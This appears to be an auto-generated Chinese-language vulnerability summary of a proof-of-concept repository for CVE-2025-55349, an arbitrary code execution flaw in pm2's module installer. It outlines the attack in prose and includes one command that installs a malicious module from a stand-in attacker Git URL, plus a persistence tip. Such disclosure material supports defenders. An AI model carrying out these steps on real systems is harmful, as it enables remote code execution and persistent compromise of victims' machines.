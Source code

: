 ## CVE-2025-55349 - pm2 Arbitrary Code Execution

**漏洞编号:** CVE-2025-55349

**漏洞类型:** Arbitrary Code Execution

**影响应用:** pm2

**危害等级:** 高危，允许攻击者执行任意代码，可能导致系统完全控制

**影响版本:** <= 5.4.2

**利用条件:** 目标系统安装了易受攻击的pm2版本，且允许安装模块

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2025-55349 存在于 Unitech PM2 v5.4.2 的 `lib/API/Modules/NPM.js` 组件中。当 PM2 安装包含精心设计的 `postinstall` 脚本的包时，允许执行任意代码。

**有效性：**
提供的 POC 代码有效。它演示了如何创建一个恶意 Git 仓库，其中包含一个在安装时执行任意命令的 `postinstall` 脚本。通过 `pm2 install` 命令安装此恶意模块时，`postinstall` 脚本会自动执行，无需用户确认或沙箱隔离。

**投毒风险：**
根据提供的漏洞利用代码，该仓库中不存在作者隐藏的投毒代码。POC 提供的代码仅仅是为了演示该漏洞，并没有其他的恶意行为。风险为0%。

**利用方式：**
1.  攻击者创建一个包含恶意 `postinstall` 脚本的 Git 仓库。
2.  攻击者诱导受害者使用易受攻击的 PM2 版本 (<= 5.4.2) 从该 Git 仓库安装模块，方法是执行 `pm2 install https://github.com/attacker/malicious-module.git` 或使用本地文件路径。
3.  PM2 在安装过程中自动执行 `postinstall` 脚本，从而导致攻击者控制的代码在受害者系统上执行。
4.  由于 PM2 模块通常在系统启动时启动，因此攻击者可以通过将恶意模块注册为 PM2 启动模块来实现持久化。

**项目地址:** [GoldenTicketLabs/CVE-2025-55349](https://github.com/GoldenTicketLabs/CVE-2025-55349)

**漏洞详情:** [CVE-2025-55349](https://nvd.nist.gov/vuln/detail/CVE-2025-55349)